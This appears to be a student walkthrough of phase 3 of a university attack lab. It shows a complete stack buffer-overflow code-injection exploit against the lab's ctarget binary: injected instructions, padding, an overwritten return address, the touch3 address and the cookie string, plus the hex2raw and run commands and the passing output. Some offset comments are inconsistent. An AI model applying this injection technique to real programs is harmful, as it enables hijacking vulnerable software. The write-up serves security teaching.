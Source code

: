 Phase 3 is kinda similar to phase two except that we are trying to call the function touch3 and have to pass our cookie to it as string

In the instruction it tells you that if you store the cookie in the buffer allocated for getbuf, the functions hexmatch and strncmp
may overwrite it as they will be pushing data on to the stack, so you have to be careful where you store it.

We will be storing the cookie after touch3.

So let's pass the address for the cookie to register $rdi

The total bytes before the cookie are `buffer + 8 bytes for return address of rsp + 8 bytes for touch3` 

`0x18 + 8 + 8 =  28` (40 Decimal)  

Grab the address for rsp from phase 2: `0x55620cd8`
Add 0x28
`0x55620cd8 + 0x28 = 0x55620D00`
Now you need this assembly code, same steps generating the byte representation

```
    movq $0x55620D00,%rdi /* %rsp + 0x18 */
    retq
```

The byte representation is as follows:
```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 00 0d 62 55 	mov    $0x55620d00,%rdi
   7:	c3                   	retq   
```

Now, grab the bytes from the above code and start constructing your exploit string. Create a new file named phase3.txt and here is what mine looks like:
```
48 c7 c7 00 0d 62 55 c3 /*rsp + 28 the address where the cookie is present*/
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /*padding*/
d8 0c 62 55 00 00 00 00 /* return address ($rsp)*/
7f 19 40 00 00 00 00 00 /* touch3 address -- get this from the rtarget dump file */
34 33 34 62 34 62 37 30 /* cookie string*/
```
If you look at the last row above, the cookie is in hex format, so you need to take your cookie and convert in to text format.
Go to http://www.unit-conversion.info/texttools/hexadecimal/ and put in your cookie without '0x' and it should give you the text format or you could look up ascii equivalent on your machine


Last step is to generate the raw eploit string using the hex2raw program.

`./hex2raw < phase3.txt > raw-phase3.txt`

Finally, you run the raw file

`./ctarget < raw-phase3.txt`

Response looks like below

```
Cookie: 0x434b4b70
Type string:Touch3!: You called touch3("434b4b70")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
